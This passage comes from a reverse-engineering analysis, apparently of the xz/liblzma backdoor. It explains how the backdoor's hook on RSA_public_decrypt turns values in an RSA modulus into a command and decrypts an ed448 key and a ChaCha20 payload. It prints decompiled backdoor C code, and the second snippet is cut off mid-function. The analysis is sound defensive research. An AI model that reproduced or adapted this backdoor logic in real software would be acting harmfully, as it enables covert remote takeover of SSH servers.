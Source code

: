 The backdoor calculates the value of `bd_command` from the values of `modulus.magic_params.c`, `modulus.magic_params.b`, and `modulus.magic_params.a`.

The resulting `bd_command` can take the values 0, 1, 2, and 3.

If the value is greater than 3, the backdoor bails and calls the original `RSA_public_decrypt` function.

If `bd_command` is valid, the backdoor proceeds to decrypt the ciphertext:

```c
...
    standard = ctx->standard;
    if ( standard )
    {
        if ( standard->getuid )
        {
        if ( standard->_exit )
        {
            if ( ctx->ssh_logs_p )
            {

            // check that ctx->secret_data will have the expected value
            if ( ctx->reg2reg_insn_count == 0x1C8 )
            {
                header_value = modulus.magic_params;
                // decrypt g_ctx->secret_data to get ed448_public_key
                if ( decrypt_ed448_public_key(ed448_public_key, ctx) )
                {
                // decrypt ciphertext using ed448_public_key[:32] as a key
                // and a, b, c as an IV
                if ( chacha20_decrypt(
                        modulus.ciphertext.signature,
                        n_bytes_count - 16,
                        ed448_public_key,
                        &header_value,
                        modulus.ciphertext.signature,
                        ctx->hfuncs) )
...
```

It decrypts `g_ctx->secret_data` to get `ed448_public_key`:

```c
Status __fastcall decrypt_ed448_public_key(uint8_t *out, global_ctx *ctx)
{
  hfuncs_t *hfuncs; // r9
  size_t i; // rcx
  uint32_t *p1; // rdi
  size_t j; // rcx
  uint32_t *p2; // rdi
  uint8_t key1[32]; // [rsp-20h] [rbp-B8h] BYREF
  uint8_t iv1[16]; // [rsp+0h] [rbp-98h] BYREF
  uint8_t key2[32]; // [rsp+10h] [rbp-88h] BYREF
  uint8_t iv2[16]; // [rsp+30h] [rbp-68h] BYREF

  if ( !out )
    return 0;
  if ( ctx )
  {
    hfuncs = ctx->hfuncs;
    if ( hfuncs )
    {
      i = 12LL;
      p1 = key1;
      while ( i )
      {
```

[1]: https://gynvael.coldwind.pl/?lang=en&id=782
[2]: https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
[3]: https://en.wikipedia.org/wiki/Radix_tree
[4]: https://github.com/smx-smx/xzre/blob/main/xzre.h
[5]: https://github.com/smx-smx/xzre/blob/ff3ba18a39bad272ff628bb759ed5c897cf441b3/xzre.c#L48